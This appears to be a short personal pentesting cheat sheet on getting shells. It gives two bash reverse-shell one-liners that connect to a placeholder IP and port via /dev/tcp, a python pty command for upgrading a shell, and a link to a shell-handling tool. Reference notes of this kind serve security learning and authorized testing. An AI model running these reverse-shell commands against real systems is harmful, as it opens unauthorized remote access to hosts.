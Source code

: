 # Shells

Always remember to check your IP: [[Linux Networking#Get your IP]]

## Bash Reverse

```bash
bash -i >& /dev/tcp/[IP]/[PORT] 0>&1
```

or

```bash
bash -c 'bash -i >& /dev/tcp/[IP]/[PORT] 0>&1'
```

## Upgrading a Shell

```bash
which bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Girsh

[Repo link](https://github.com/nodauf/Girsh)